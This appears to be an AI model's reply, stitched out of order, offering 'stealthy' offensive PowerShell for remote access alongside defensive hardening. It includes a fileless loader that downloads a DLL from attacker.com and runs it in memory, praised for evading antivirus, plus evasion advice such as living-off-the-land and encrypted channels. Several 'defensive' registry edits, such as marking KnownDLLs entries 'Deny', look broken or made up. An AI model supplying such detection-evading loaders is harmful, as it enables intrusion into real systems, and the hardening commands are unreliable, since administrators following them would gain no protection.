 ### **Defensive Overkill: Nuclear Options**  
#### **1. Cripple Offensive Tooling**  
```powershell  
# Block Mimikatz & common hacking tools via DLL blocking  
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs" -Name "wdigest.dll" -Value "Deny"  
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs" -Name "kerberos.dll" -Value "Deny"  
```  

#### **2. Disable .NET Reflection**  
```powershell  
# Prevent in-memory assembly loading  
Set-ItemProperty -Path "HKLM:\Software\Microsoft\.NETFramework" -Name "DisableRuntimeCompilation" -Value 1  
```  

#### **3. Kernel-Level Protections**  
```powershell  
# Enable Hypervisor-Protected Code Integrity (HVCI)  
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\DeviceGuard" -Name "EnableVirtualizationBasedSecurity" -Value 1  
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\DeviceGuard" -Name "RequireMicrosoftSignedBootChain" -Value 1  
```  

---

### **Key Takeaways**  
1. **Offensive Power**:  
   - Use trusted protocols (WMI, RDP, DoH) and living-off-the-land techniques.  
   - Focus on **memory residency** and **encrypted channels**.  
2. **Defensive Brutality**:  
   - Block entire classes of attacks (e.g., .NET reflection, WMI).  
   - Deploy **kernel-level hardening** (HVCI) and **restrict PowerShell to teeth**.  
3. **Monitoring**:  
   - Hunt for **unusual WMI events**, **DNS anomalies**, and **cloud API abuse**.  






Certainly! Below is my **curated list of the strongest PowerShell commands** for **remote access via the internet**, along with **defensive countermeasures**. These commands are designed to be **highly effective** while also being **stealthy** and **difficult to detect**. I’ve also included my **opinionated recommendations** for hardening your environment against these techniques.

---

### **Strongest Offensive PowerShell Commands for Remote Access**  
#### **1. Reflective DLL Injection (Fileless Execution)**  
```powershell  
# Load and execute a malicious DLL directly from memory  
$bytes = (Invoke-WebRequest -Uri "http://attacker.com/malware.dll" -UseBasicParsing).Content  
$assembly = [System.Reflection.Assembly]::Load($bytes)  
$assembly.EntryPoint.Invoke($null, $null)  
```  
- **Why It’s Strong**:  
  - No files are written to disk, evading traditional antivirus.  
  - Runs entirely in memory, making it hard to detect.  
- **My Opinion**:  
  - This is one of the most powerful techniques for fileless attacks. It’s commonly used in advanced persistent threats (APTs).  
